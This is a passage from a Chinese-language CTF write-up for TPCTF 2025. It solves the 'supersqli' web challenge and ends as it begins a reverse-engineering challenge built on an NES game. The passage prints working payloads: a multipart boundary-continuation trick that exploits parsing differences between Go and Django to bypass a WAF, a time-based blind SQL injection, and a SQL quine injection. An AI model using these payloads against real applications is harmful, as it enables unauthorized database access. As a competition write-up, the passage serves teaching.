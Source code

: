 ![img](https://or4nge-images.zeroc0077.cn/writeups/2025/tpctf2025/img_2.png)

### supersqli

看到 go 写的 waf 中有对 `multipart/form-data` 的解析，猜测可能是通过 golang 和 django 对 request 的解析差异进行 waf 绕过，构造 payload 如下可以绕过：

```http
Content-Type: multipart/form-data; boundary="boundary";boundary*0="real-";boundary*1="boundary"
Content-Length: 246

--boundary
Content-Disposition: form-data; name="username"

admin
--boundary2
Content-Disposition: form-data; name="password"

admin
--boundary--

--real-boundary
Content-Disposition: form-data; name="username"

a
--real-boundary--
```

`password` 存在 sql 注入，首先测试盲注，将 admin 字段替换为如下内容：

```sql
' union select 1,1,(case when(substr((select password from blog_adminuser),1,1)='b') then randomblob(1000000000) else 0 end)--
```

发现 `blog_adminuser` 为空，同时无法堆叠注入，同时需要一种可以使 sql 注入时输入和输出相等的注入方式

测试 sql quine 注入，构造 payload 如下：

```sql
' union select 1,2,replace(replace('" union select 1,2,replace(replace("_",char(34),char(39)),char(95),"_")--',char(34),char(39)),char(95),'" union select 1,2,replace(replace("_",char(34),char(39)),char(95),"_")--')--
```

flag: `TPCTF{SQLi_1s_E4sy_13ut_H4rd}`

## Reverse

### chase

给了一个红白机的 NES 文件，运行后是一个小游戏。

通关可以获得第一部分 flag：
